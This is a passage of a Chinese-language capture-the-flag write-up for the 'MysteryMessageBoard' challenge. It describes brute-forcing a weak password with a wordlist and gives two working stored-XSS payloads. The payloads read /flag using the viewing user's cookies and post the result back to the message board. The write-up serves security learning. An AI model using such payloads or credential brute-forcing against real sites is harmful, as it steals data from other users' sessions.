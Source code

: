 刷新页面，flag即渲染在页面上

​![81836c77c6125b5b580d1ffacb6ba3ec](img/hgame1/81836c77c6125b5b580d1ffacb6ba3ec-20250212020918-ro806bj.png)​

## ​`Level 69 MysteryMessageBoard`​

先搞个密码本，用bs弱口令爆破一下得到账号密码

shallot 888888

点进去发现是个留言板，那八成是个XSS了，试试最简单的

```js
<script>alert('111');</script>
```

确实有，并且好像连过滤都没有

```js
<script>
  // 直接从当前页面获取 flag
  fetch('/flag', {
    credentials: 'include' // 确保发送 cookies
  }).then(response => {
    if (response.ok) {
      return response.text();
    }
    throw new Error('Failed to fetch flag');
  }).then(flag => {
    // 将获取到的 flag 提交到留言板
    var form = document.querySelector('form');
    form.querySelector('textarea').value = flag;
    form.submit();
  }).catch(error => {
    console.error('Error:', error);
  });
</script>
```

另一种payload：

```python
<script>
    fetch('/flag')
        .then(res => res.text())
        .then(flag => {
            fetch('/', {
                method: 'POST',
                headers: {'Content-Type': 'application/x-www-form-urlencoded'},
                body: "comment=" + flag
            })
        })
</script>
```
